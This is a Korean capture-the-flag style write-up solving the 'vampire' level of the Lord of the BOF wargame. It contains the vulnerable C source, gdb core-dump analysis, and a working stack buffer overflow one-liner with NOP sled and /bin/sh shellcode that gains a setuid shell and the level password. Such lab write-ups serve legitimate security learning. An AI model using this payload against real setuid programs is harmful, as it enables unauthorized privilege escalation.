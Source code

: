 # Summary

**이전 문제와 동일한 내용은 생략하고 추가된 내용만 다루었다.**

> 문제의 소스코드

```c
[troll@localhost troll]$ cat vampire.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

<br>

이전 문제와 비교하여 추가된 내용은 다음과 같다.

- `argv[1][46]`이 `\xff` 인지 체크 == `0xbfff????` 주소를 사용했는지 체크

<br>

# Analysis

이 문제는 [스택][stack]의 기본 구조만 인지하고 있으면 쉽게 풀 수 있는 문제이다.

[스택][stack]은 기본적으로 한쪽 끝에서만 데이터를 넣거나 빼는 선형 구조인 `LIFO(Last In First Out)` 방식이기 때문에 스택 프레임이 커질수록 높은주소에서 낮은주소로 늘어난다.

이 문제의 경우 `0xbfff????` 주소를 사용할 수 없기 때문에 더 낮은 주소인 `0xbffe????` 이하 주소를 사용해야한다.

<br>

필자의 경우 `tmp`디렉토리에 원본 바이너리를 복사 후 `\x90*20000`을 사용해 2만개의 NOP 코드를 넣고 `core dump`로 버퍼가 어느 주소까지 들어가는지 확인해보았다.

```python
[troll@localhost troll]$ mkdir tmp;cp vampire vampire.c ./tmp;
[troll@localhost troll]$ cd tmp
[troll@localhost tmp]$ ./vampire `python -c "print 'A'*44+'\xff\xff\xfe\xbf'+'\x90'*20000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���������������������������
(... 중략 ...)
����������������������1�Ph//shh/bin��PS�ᙰ
                                              ̀
Segmentation fault (core dumped)
[troll@localhost tmp]$ gdb -q ./vampire ./core
Core was generated by `�������������������������������������������������������������������������������'.
Program terminated with signal 11, Segmentation fault.
Reading symbols from /lib/libc.so.6...done.
Reading symbols from /lib/ld-linux.so.2...done.
#0  0xbffeffff in ?? ()
(gdb) x/40wx 0xbfffffff-21400
0xbfffac67:	0xffac8040	0x066070bf	0x10698040	0x04855f40
0xbfffac77:	0xffac9008	0x1081ecbf	0xffacb840	0x0484cabf
0xbfffac87:	0x04855f08	0xffac9008	0x414141bf	0x41414141
0xbfffac97:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffaca7:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffacb7:	0x41414141	0xfeffff41	0x909090bf	0x90909090
0xbfffacc7:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffacd7:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffface7:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffacf7:	0x90909090	0x90909090	0x90909090	0x90909090
```

<br>

특정 지점에서 메모리 값을 확인해보니 데이터는 정상적으로 들어가 있었으나 시작 주소가 `0xbfff????`이므로

조건에 만족되지 않았다.

스택 프레임 크기를 더 늘려야 한다.

같은 방법으로 `NOP` 코드를 2만개가 아닌 10만개를 주었다.

```python
[troll@localhost tmp]$ ./vampire `python -c "print 'A'*44+'\xff\xff\xfe\xbf'+'\x90'*100000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���������������������������
(... 중략 ...)
�������������������������1�Ph//shh/bin��PS�ᙰ
                                                    ̀
bash$ id
uid=508(troll) gid=508(troll) groups=508(troll)
```

<br>

`shell`이 정상적으로 실행되었으나 `tmp` 디렉토리에서 임시 파일이 실행되어 `uid`와 `euid`가 동일하다.

원본 바이너리에 해당 인자를 주어 실행한다면 `shell`을 획득할 수 있을 것이다.

<br>

# Exploit

```python
[troll@localhost troll]$ ./vampire `python -c "print 'A'*44+'\xff\xff\xfe\xbf'+'\x90'*100000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���������������������������
(... 중략 ...)
����������������1�Ph//shh/bin��PS�ᙰ
                                                    ̀
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```

### Clear! password is….

music world



[stack]: https://ko.wikipedia.org/wiki/%EC%8A%A4%ED%83%9D